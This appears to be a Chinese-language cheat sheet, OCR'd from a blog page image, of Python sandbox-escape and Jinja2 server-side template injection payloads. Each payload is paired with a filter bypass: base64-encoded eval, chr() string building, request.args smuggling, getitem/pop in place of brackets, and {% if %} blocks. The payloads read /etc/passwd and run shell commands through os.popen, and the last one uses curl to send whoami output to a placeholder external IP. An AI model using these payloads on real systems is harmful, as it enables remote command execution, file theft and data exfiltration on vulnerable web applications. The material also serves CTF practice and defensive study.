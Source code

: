 ```
`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCk=".decode('base64'))`(可以看出单双引号内的都可以编码)

同理还可以进行rot13、16进制编码等

### 过滤中括号[]

**getitem()**

```
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
```

**pop()**

`''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()`

**字典读取**

```
__builtins__['eval']()
__builtins__.eval()
```

经过测试这种方法在python解释器里不能执行，但是在测试的题目环境下可以执行

![](https://img-blog.csdnimg.cn/img_convert/14731259187aeb153138cfc7dfcbfca6.png)

### 过滤引号

先获取chr函数，赋值给chr，后面拼接字符串

`{% set   chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr   %}{{   ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()   }}`

或者借助request对象：（这种方法在沙盒种不行，在web下才行，因为需要传参）

`{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd`

**PS：将其中的request.args改为request.values则利用post的方式进行传参**

执行命令：

`{% set   chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr   %}{{   ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read()   }}`

`{{   ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read()   }}&cmd=id`

### 过滤双下划线__

`{{   ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read()   }}&class=__class__&mro=__mro__&subclasses=__subclasses__`

### 过滤{{

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://xx.xxx.xx.xx:8080/?i=`whoami`').read()=='p' %}1{% endif %}
